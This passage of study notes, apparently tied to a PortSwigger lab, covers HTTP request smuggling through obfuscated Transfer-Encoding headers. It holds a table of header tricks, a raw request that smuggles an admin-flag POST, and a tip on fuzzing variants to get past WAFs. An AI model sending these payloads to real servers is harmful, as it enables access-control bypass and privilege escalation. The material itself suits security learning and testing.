 
- **Both front-end & back-end use TE**.
	
- One of the servers is induced to not process TE by obfuscation
	
- Exploits **malformed or duplicate TE headers**.
    
## 🧪 Common TE Obfuscation Tricks
|Technique|Example Header|Why It Works|
|---|---|---|
|**Non-standard token**|`Transfer-Encoding: xchunked`|Some servers ignore invalid TE values → fallback to CL. Others attempt to parse anyway.|
|**Extra space before colon**|`Transfer-Encoding : chunked`|Certain parsers accept it, others don’t.|
|**Trailing junk after chunked**|`Transfer-Encoding: chunked` `Transfer-Encoding: x`|One server may parse as chunked, another sees invalid TE.|
|**Tab character instead of space**|`Transfer-Encoding:[tab]chunked`|Tabs are legal separators in HTTP/1.1 but not consistently handled.|
|**Leading space in header name**|`[space]Transfer-Encoding: chunked`|Some parsers ignore header, others parse it.|
|**Header smuggling with newline**|`X: X[\n]Transfer-Encoding: chunked`|Injects a hidden TE header. Front-end may ignore, back-end parses it.|
|**Header split across lines**|`Transfer-Encoding\r\n: chunked`|Newline before colon splits parsing logic between servers.|
|**Multiple TE headers**|`Transfer-Encoding: chunked` `Transfer-Encoding: cow`|Some servers use **first header**, others use **last**.|
|**Case manipulation**|`tRaNsFeR-eNcOdInG: ChUnKeD`|Case-insensitivity is required by RFC, but parsing bugs exist.|
|**Comma-separated encodings**|`Transfer-Encoding: gzip, chunked`|RFC-compliant but often mis-parsed → servers disagree on order.|

It is necessary to find some variation of the TE header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

## 📌 **Example**

```http
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```
💥 Result:
- Front-end ignores malformed TE (`chunked1`) and uses chunked normally.    
- Back-end interprets differently (or falls back to CL).
- Smuggled request (`POST /update`) is executed.

https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header

> **Pro tip:** TE obfuscation is **essential for bypassing WAFs** and modern defenses. If a clean CL.TE/TE.CL payload is blocked, fuzzing TE variants often works.